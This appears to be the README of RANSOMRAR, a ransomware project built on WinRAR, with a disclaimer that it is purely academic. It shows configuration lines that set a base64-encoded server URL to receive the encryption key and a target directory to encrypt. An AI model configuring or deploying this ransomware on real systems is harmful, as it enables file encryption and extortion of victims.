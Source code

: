 
          ____      _    _   _ ____   ___  __  __ ____      _    ____  
         |  _ \    / \  | \ | / ___| / _ \|  \/  |  _ \    / \  |  _ \ 
         | |_) |  / _ \ |  \| \___ \| | | | |\/| | |_) |  / _ \ | |_) |
         |  _ <  / ___ \| |\  |___) | |_| | |  | |  _ <  / ___ \|  _ < 
         |_| \_\/_/   \_\_| \_|____/ \___/|_|  |_|_| \_\/_/   \_\_| \_\ by jhdbw
                                                                                                                                                
This project is purely academic, use at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization.

Remember to specify the server that will receive the key:
```javascript
REM set b64="http://127.0.0.1:7777/"
set b64=Imh0dHA6Ly8xMjcuMC4wLjE6Nzc3Ny8i
```

To limit the scope of RANSOMRAR check the following line of code:
```javascript
set target=%HOMEPATH%\ransomrar
```
### Pre requirements
The computer must have WinRAR installed.

### Video
https://youtu.be/f8k1BXXIOpw
